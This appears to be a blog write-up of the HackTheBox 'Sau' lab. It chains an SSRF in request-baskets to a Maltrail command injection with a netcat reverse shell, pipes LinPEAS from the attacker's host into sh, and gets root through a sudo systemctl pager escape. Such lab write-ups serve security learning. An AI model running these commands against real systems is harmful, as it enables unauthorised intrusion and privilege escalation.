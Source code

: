 ```yaml
---
title: "HTB - Sau"
date: "11/10/2024"
description: "Write-up of the Sau machine on HackTheBox."
tags: ["HackTheBox"]
image: "https://shigatena.dev/articles/htb_sau.png"
readingTime: "10"
---
```


![preview](https://www.it-connect.fr/wp-content-itc/uploads/2023/12/hackthebox-writeup-sau.png)

## Initial Reconnaissance

First, we initiate a scan of open ports:
```bash
nmap -sC -sV [BOX_IP]
```
This reveals an exposed service at `http://[BOX_IP]:55555/`. Another service is detected on port 80, but it remains inaccessible to us.

Access the URL from your browser to observe the app version is 1.2.1.

## Part One: Exploiting the SSRF Vulnerability

A quick Google search reveals that this version is vulnerable to Server Side Request Forgery (SSRF) on the `/api/baskets/{baskets_name}` endpoint.

We proceed to trigger the SSRF to extract information from the inaccessible port 80:
```bash
curl -L 'http://[BOX_IP]:55555/api/baskets/idklol' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
```
By accessing `http://[BOX_IP]:55555/idklol`, we obtain the leaked webpage which uses Maltrail v0.53.

## Part Two: OS Command Execution Exploit

Another Google search for "Maltrail v0.53 exploit" reveals it is also vulnerable to OS command execution. 

Referencing this PoC: https://github.com/spookier/Maltrail-v0.53-Exploit, we note that the login page is needed to exploit the "username" field. 

To address this, we modify our first vulnerability to redirect traffic to the `/login` endpoint:
```bash
curl -L 'http://[BOX_IP]:55555/api/baskets/idklmao' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/login", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
```
We then execute the following command to obtain a session as the user "puma":
```bash
nc -lvnp [YOUR_PORT]
python3 exploit.py [YOUR_IP] [YOUR_PORT] http://[BOX_IP]:55555/idklmao
```
The user flag can be found at `/home/puma/user.txt`. We now need to escalate our privileges.

## Part Three: Privilege Escalation with LinPEAS

To begin, we run LinPEAS, a Linux enumeration tool. Download it from the latest release on GitHub: https://github.com/carlospolop/PEASS-ng/releases/latest and move it into a separate folder.

In order to transfer it to the box, we establish a python server within the directory containing `LinPEAS.sh`:
```bash
sudo python3 -m http.server 80
```
Inside the box, we use `curl` to download it:
```bash
curl http://[YOUR_IP]/linpeas.sh | sh
```
Despite multiple attempts trying out things with LinPEAS output, I didn't find a way to get root at first.

## Part Four: Exploiting Sudo Permissions

After some search, we identify a path to privilege escalation through LinPEAS output:
```sh
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
This indicates that the user has the ability to execute `sudo /usr/bin/systemctl status trail.service`, which triggers a "less" command page style. 

Looking at https://gtfobins.github.io/gtfobins/systemctl/, we learn that: "If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate, or maintain privileged access."

If we trigger the command as sudo, our privileges will be maintained when gaining another shell. 
Following the instructions in point c) inside gtfobins, we execute:
```bash
sudo /usr/bin/systemctl status trail.service
```
Then type:
```bash
!sh
```
This provides another shell. We verify our privileges:
```bash
whoami
```
This should output `root`, indicating that we have root-level privileges. 

The flag can be found under `/root/root.txt`.

Happy rooting :)